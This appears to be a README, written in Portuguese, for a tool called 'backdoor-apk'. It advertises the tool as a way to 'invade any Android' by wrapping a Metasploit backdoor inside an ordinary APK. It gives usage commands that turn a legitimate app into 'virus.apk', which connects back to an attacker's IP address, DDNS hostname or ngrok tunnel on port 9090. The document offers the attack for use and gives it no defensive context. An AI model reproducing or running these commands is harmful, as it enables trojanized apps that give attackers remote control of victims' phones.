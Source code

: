 # backdoor-apk
Invada qualquer Android usando um APK!

Necessário o Perl, MSF(console e venom), um APK(qualquer)..

Para ajuda

./backdoor-apk -h

IP:

./backdoor-apk test.apk 192.168.1.143 9090 virus.apk

Host/DDNS:

./backdoor-apk test.apk fuckthisn0ip.ddns.net 9090 virus.apk

Ngrok:

./backdoor-apk -n test.apk xxxx.ngok.io xxxx 9090 virus.apk

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
